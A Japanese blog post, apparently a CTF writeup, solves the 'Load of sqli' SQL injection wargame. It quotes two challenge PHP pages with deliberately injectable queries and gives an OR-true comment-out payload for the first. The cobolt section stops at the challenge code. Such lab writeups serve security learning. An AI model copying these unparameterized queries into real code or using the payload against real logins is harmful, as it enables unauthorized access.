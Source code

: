 ```yaml
---
title: 'load of sqli'
date: 2020-05-03
category: diary
tags:
  - CTF
---
```


# Load of sqli
これは，Load of sqliのwriteup兼自分のメモ

## gremlin

### 問題
``` php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

### 考察
以下の条件式を満たせばよい．
``` php
if($result['id']) solve("gremlin");
```
idもpwもわからないので，すべてのidをresultに格納することを考える．

### 回答
pw以下はコメントアウト
``` sql
select id from prob_gremlin where id='' or true #' and pw=''
```


## cobolt

### 問題
``` php
<?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
```